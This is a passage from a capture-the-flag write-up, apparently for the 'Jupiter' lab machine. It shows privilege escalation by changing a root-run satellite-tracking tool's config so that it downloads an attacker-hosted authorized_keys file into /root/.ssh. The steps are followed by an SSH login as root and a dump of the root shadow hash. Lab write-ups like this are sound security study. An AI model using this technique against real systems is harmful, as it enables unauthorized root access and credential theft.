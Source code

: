By searching for "sattrack" with the parameters extracted from the configuration file, I found a GitHub repository named [arftracksat](https://github.com/arf20/arftracksat), which provides insights into the application and its [configurations](https://github.com/arf20/arftracksat#configuring). The interesting ones being:

- `tleroot`: The main directory for downloads.
- `tlefile`: The file within the directory specified by `tleroot` for downloads.
- `tlesources`: The URL for downloading the file.

Considering that the `sattrack` binary can be executed as root, I can write an `authorized_keys` file to root's SSH directory by downloading it from my attack box. `tleresources` also supports the `file://` URI which means I can also read files as root.

```json
"tleroot": "/root/.ssh/",
"tlefile": "authorized_keys",

"tlesources": [
    "http://10.10.14.16/authorized_keys"
],
```

When the "sattrack" binary is executed with root privileges, it fetches the file from the HTTP server hosted on my attack box and saves it to the location specified in its configurations.

```bash
(remote) jovian@jupiter:/tmp$ sudo /usr/local/bin/sattrack
Satellite Tracking System
Get:0 http://10.10.14.16/authorized_keys
Satellites loaded
No sats
```

```bash
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.229.15 - - [22/Jun/2023 20:16:14] "GET /authorized_keys HTTP/1.1" 200 -

```

Using the the identity key, I can login as root via SSH.

```bash
> ssh -i id_rsa.root root@jupiter.htb
root@jupiter:~# id
uid=0(root) gid=0(root) groups=0(root)
root@jupiter:~# ls -la root.txt
-rw-r----- 1 root root 33 Jun 22 13:51 root.txt
root@jupiter:~#
```

**Pwned!!**



```bash
root@jupiter:~# cat /etc/shadow | grep root
root:$y$j9T$IW34JPHywVa4Fs590kLAs1$L2hNBUYic4PnYnxpIGE7HXzv.DaeGC4eLE9KJOU6f77:19482:0:99999:7:::
```

---